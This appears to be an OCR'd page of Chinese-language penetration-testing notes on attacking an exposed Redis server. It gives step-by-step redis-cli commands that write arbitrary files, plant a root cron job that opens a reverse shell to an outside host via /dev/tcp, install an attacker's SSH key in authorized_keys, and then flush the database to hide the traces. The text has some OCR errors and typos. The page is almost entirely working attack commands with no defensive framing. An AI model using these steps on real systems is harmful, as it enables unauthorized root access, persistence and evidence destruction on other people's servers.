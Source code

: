**reds-cli**

    redis-cli -h 172.16.x.x -p 6379
    
        

**如何写入文件**

    172.16.x.x:6379 > CONFIG GET dir
    1) "dir" 
    2) "/usr/local/var/db/redis"
    172.16.x.x:6379 > CONFIG set dir /tmp/
    OK
    172.16.x.x:6379 > SET foobar "who are you? Rvnoxsy" 
    OK
    172.16.x.x:6379 > CONFIG GET dbfilename
    1) filename
    2) dump.rab 
    172.16.x.x:6379 > CONFIG SET dbfilename write_file.log 
    OK
    172.16.x.x:6379 > save
    OK
    
        

**反弹shell-Linux**

    127.0.0.1:6379 > set shell "\n* * * * *  bash -i >& /dev/tcp/1.1.1.1/88 0>&1\n" 
    OK
    127.0.0.1:6379 > config set dir /var/spool/cron/
    OK
    127.0.0.1:6379 > config set dbfilename root 
    OK
    127.0.0.1:6379 > save
    [238] xx May xx:xx:xx DB saved on disk
    OK
    
        

**写入公钥**-
**生成公钥：**

    ssh-keygen-t rsa   --一直回城即可
    
        

    127.0.0.1:6379 > config set dir /root/ssh/
    OK
    127.0.0.1:6379 > config set dbfilename authorized_keys
    OK
    127.0.0.1:6379 > set x "\n\n\nssh-rsa xxxxxx root@kali\n\n\n"
    OK
    127.0.0.1:6379 > save
    OK
    
        

操作完记得情况数据库

    172.16.x.x:6379 > FLUSHALL
    